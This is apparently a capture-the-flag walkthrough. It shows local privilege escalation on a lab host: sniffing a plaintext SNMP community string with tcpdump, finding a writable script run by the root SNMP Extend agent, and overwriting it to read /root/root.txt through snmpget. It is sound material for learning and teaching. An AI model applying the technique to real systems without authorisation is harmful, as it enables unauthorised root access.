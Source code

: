 # Keep it simple

## Question 1
Start the machine, connect to 10.10.X.X using SSH an log in.


## Question 2
First off lets see if there is anything interesting in the home directory;

    [monitor@simple ~]$ ls
    todo.txt

Better read this todo file;

    [monitor@simple ~]$ cat todo.txt
    The simple service should be running already!

    To do list:

    1 - Check the disk monitoring is working e.g

    'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk"'
    
    2 - Also confirm with Dev team if they want camel, snake or kebab case this week (lol) and standardise the OID formats!


Ok so seems like some network monitoring development is underway on this host and a service called 'simple' is up and running.

Lets look into that service first;

    [monitor@simple ~]$ systemctl | grep simple
    simple.service                                                                           loaded active running   simple.ser                                       vice

    [monitor@simple ~]$ systemctl status simple.service
    ● simple.service
       Loaded: loaded (/etc/systemd/system/simple.service; enabled; vendor preset: disabled)
       Active: active (running) since Fri 2023-12-01 12:09:00 GMT; 13min ago
     Main PID: 646 (simple.server.s)
       CGroup: /system.slice/simple.service
               ├─ 646 /bin/bash /usr/local/bin/simple.server.sh
               └─1828 sleep 5

So, a script is being run but we have no idea what that is doing;

    [monitor@simple ~]$ cat /usr/local/bin/simple.server.sh
    cat: /usr/local/bin/simple.server.sh: Permission denied


Next lets look at the two tasks in the "to do" list

Looking at the hint in todo list task 1 we can also see that SNMP is being used and in particular the Extend MIB which "defines a framework for scripted extensions for the Net-SNMP agent" (quote from http://www.net-snmp.org/docs/mibs/)

Time to research the SNMP Extend MIB and find out what it's all about.  Here is a great primer from RedHat;

https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/deployment_guide/sect-system_monitoring_tools-net-snmp-extending

We have now learned that as well as reporting on the usual system and networking metrics SNMP can also be extentded to run custom scripts!

Looking at todo list task 2 we can get the idea that script names used here have not been standardised.  Don't know what that means but we can keep this in mind for later.

As we now know from todo list task 1 & our own research we now know the answer to task 2!

## Question 3
How to get that root flag?

Let's see if an SNMP server is running on our host;

    [monitor@simple ~]$ ss -tunnelp
    Netid  State      Recv-Q Send-Q                                 Local Address:Port                                                Peer Address:Port
    udp    UNCONN     0      0                                                  *:68                                                             *:*                   ino:17694 sk:ffff8f6d7a381980 <->
    udp    UNCONN     0      0                                          127.0.0.1:161                                                            *:*                   ino:18752 sk:ffff8f6d7a381dc0 <->
    udp    UNCONN     0      0                                          127.0.0.1:323                                                            *:*                   ino:15366 sk:ffff8f6d7a380cc0 <->
    udp    UNCONN     0      0                                              [::1]:323                                                         [::]:*                   ino:15367 sk:ffff8f6d779fc000 v6only:1 <->
    tcp    LISTEN     0      128                                                *:22                                                             *:*                   ino:18595 sk:ffff8f6d77b8c000 <->
    tcp    LISTEN     0      128                                        127.0.0.1:199                                                            *:*                   ino:18753 sk:ffff8f6d77b8c7c0 <->
    tcp    LISTEN     0      128                                             [::]:22                                                          [::]:*                   ino:18604 sk:ffff8f6d77b90000 v6only:1 <->

Yep!  We can also see that SNMP is running as root - oops :-D

    [monitor@simple ~]$ ps -ef | grep snmp
    root      1024     1  0 12:09 ?        00:00:01 /usr/sbin/snmpd -LS0-6d -f

Can't read the SNMP conf file :-(

    [monitor@simple ~]$ cat /etc/snmp/snmpd.conf
    cat: /etc/snmp/snmpd.conf: Permission denied


Lets see if we can see any SNMP traffic hitting our host - time to fire up tcpdump! We can use "-i any" switch to pick up traffic from all available interfaces;

    [monitor@simple ~]$ tcpdump -nn udp and port 161 -i any 
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    12:29:57.498885 IP 127.0.0.1.43754 > 127.0.0.1.161:  C="******" GetRequest(28)  .1.3.6.1.2.1.1.5.0
    12:29:57.503196 IP 127.0.0.1.161 > 127.0.0.1.43754:  C="******" GetResponse(34)  .1.3.6.1.2.1.1.5.0="simple"
    12:30:02.524673 IP 127.0.0.1.56841 > 127.0.0.1.161:  C="******" GetRequest(28)  .1.3.6.1.2.1.1.5.0
    3 packets captured
    6 packets received by filter
    0 packets dropped by kernel

Yay! We can see SNMP requests and replies on the loopback interface! Looks like an older version (i.e. 1 or 2c) is being used to we can see the SNMP data - including the community
in plain text!

So let's recap what we now know;

* SNMP server is running as root on the loopback interface
* The SNMP community is "******"
* Some dev work is ongoing using the SNMP Extend MIB - which we now know from research can run shell scripts or other external programs
* The todo file tells us a script called checkDisk is under development

Let's try and run checkDisk!

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk" = STRING: 42%

Seems easy enough, lets find that script!

Lets start looking for file called something like "checkDisk"

    [monitor@simple ~]$ find / -type f -name checkDisk* 2>/dev/null
    [monitor@simple ~]$

Nothing!

Let's be less specific;

    find / -type f -name check* 2>/dev/null" 

The /usr/local/bin/monitoring/ folder looks right.  

Time for a closer look;

    [monitor@simple ~]$ ls -al /usr/local/bin/monitoring/
    total 20
    drwxr-xr-x. 2 root root 116 Sep  6 12:44 .
    drwxr-xr-x. 3 root root  48 Dec  1 10:04 ..
    -rw-r--r--. 1 root root  11 Sep  6 08:24 check_disk.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:39 check_interface.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:40 check_mem.sh
    -rw-r--rw-. 1 root root  12 Sep  6 12:44 check_temp.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:39 check_users.sh

Interesting - one of these files we can edit!!!  I wonder if we can run check_temp.sh from SNMP (as root!) and spawn a shell or run commands?

Lets try running it first in the same fashion as checkDisk;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkTemp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkTemp" = No Such Instance currently exists at this OID

No dice!  

Recall from task 2 in the todo file that there was some inconsistency in OID formats and 3 formats mentioned;

1. camelCase   <------ worked Ok for check_disk.sh but not for check_temp.sh
2. snake_case
3. kebab-case

Let's try snake case;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check_temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check_temp" = No Such Instance currently exists at this OID

Thats not it. Let's try kebab case;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp" = STRING: 37.5

Great! 

We have found a way to run check_temp.sh so let's use it to grab the root flag!

    [monitor@simple ~]$ echo "cat /root/root.txt" > /usr/local/bin/monitoring/check_temp.sh
    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp" = STRING: *************************



Thanks for reading!
